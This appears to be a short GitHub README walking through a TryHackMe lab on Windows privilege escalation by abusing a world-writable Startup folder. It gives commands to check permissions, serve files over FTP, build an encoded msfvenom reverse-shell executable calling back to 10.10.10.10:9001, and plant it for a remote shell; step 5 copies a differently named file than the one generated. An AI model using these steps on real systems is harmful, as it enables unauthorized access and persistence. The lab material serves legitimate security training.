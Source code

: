 # service-escalation-startup

*credit to THM* | https://tryhackme.com/room/windowsprivescarena

1) Run icacls.exe on C:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user> icacls "C:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`

[![Image of icacls](https://github.com/kam1n0/service-escalation-startup/blob/master/tmp_upload/icacls.png)](#)

* Note that the *BUILTIN\Users* group has (F) *Full Access* permissions to the *Startup* directory.

2) Start *pyftpdlib* on Kali:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ python3 -m pyftpdlib -p 21 --write`

* Note: if pyftpdlib is not installed do the following:

[![Image of install](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/install.png)](#)

3) Generate shellcode and save as *startup.exe*:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9001 -e x86/shikata_ga_nai -f exe -o startup.exe`

4) Transfer *startup.exe* to windows victim machine:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> get startup.exe`

5) Place *startup.exe* in *C:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup*:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> cp filepermservice.exe C:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`

6) Start new session to get *Startup* programs to run and should have *reverse shell*
